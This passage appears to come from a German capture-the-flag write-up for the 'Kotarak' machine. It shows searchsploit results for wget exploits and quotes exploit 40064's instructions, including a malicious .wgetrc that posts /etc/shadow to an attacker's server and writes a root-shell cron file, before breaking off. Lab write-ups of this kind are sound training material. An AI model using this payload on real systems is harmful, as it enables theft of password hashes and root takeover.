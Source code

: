 Die Root Flag ist aber nicht hier. Es befindet sich ansonsten nur die Datei app.log im Verzeichnis...

```shell
root@kali:~/kotarak# searchsploit wget
------------------------------------------------------------------- ----------------------------------
Exploit Title                                                      | Path
                                                                   | (/usr/share/exploitdb/)
------------------------------------------------------------------- ----------------------------------
GNU Wget 1.x - Multiple Vulnerabilities                            | exploits/linux/remote/24813.pl
GNU Wget < 1.18 - Access List Bypass / Race Condition              | exploits/multiple/remote/40824.py
GNU Wget < 1.18 - Arbitrary File Upload / Remote Code Execution    | exploits/linux/remote/40064.txt
WGet 1.x - Insecure File Creation Race Condition                   | exploits/linux/local/24123.sh
feh 1.7 - '--wget-Timestamp' Remote Code Execution                 | exploits/linux/remote/34201.txt
wget 1.10.2 - Unchecked Boundary Condition Denial of Service       | exploits/multiple/dos/2947.pl
wget 1.9 - Directory Traversal                                     | exploits/multiple/remote/689.pl
------------------------------------------------------------------- ----------------------------------
------------------------------------------------------------------- ----------------------------------
Shellcode Title                                                    | Path
                                                                   | (/usr/share/exploitdb/)
------------------------------------------------------------------- ----------------------------------
Linux/x86 - execve wget + Mutated + Null-Free Shellcode (96 bytes) | shellcodes/linux_x86/43739.c
Linux/x86 - execve(_/usr/bin/wget__ _aaaa_) Shellcode (42 bytes)   | shellcodes/linux_x86/13702.c
------------------------------------------------------------------ ----------------------------------
```

Sehen wir uns diesen Exploit an: [GNU Wget < 1.18 - Arbitrary File Upload / Remote Code Execution](https://www.exploit-db.com/exploits/40064/)

```shell
root@kali:~/kotarak# searchsploit -m exploits/linux/remote/40064.txt
Exploit: GNU Wget < 1.18 - Arbitrary File Upload / Remote Code Execution
URL: https://www.exploit-db.com/exploits/40064/
Path: /usr/share/exploitdb/exploits/linux/remote/40064.txt
File Type: UTF-8 Unicode text, with CRLF line terminators

Copied to: /root/kotarak/40064.txt
```

Die Datei enthält folgende Anleitung um eine Remote Code Execution auszuführen:

```shell
In order to exploit this setup, attacker first prepares a malicious .wgetrc 
and starts an FTP server:

attackers-server# mkdir /tmp/ftptest
attackers-server# cd /tmp/ftptest

attackers-server# cat <<_EOF_>.wgetrc
post_file = /etc/shadow
output_document = /etc/cron.d/wget-root-shell
_EOF_

attackers-server# sudo pip install pyftpdlib
attackers-server# python -m pyftpdlib -p21 -w

At this point attacker can start an HTTP server which will exploit wget by
```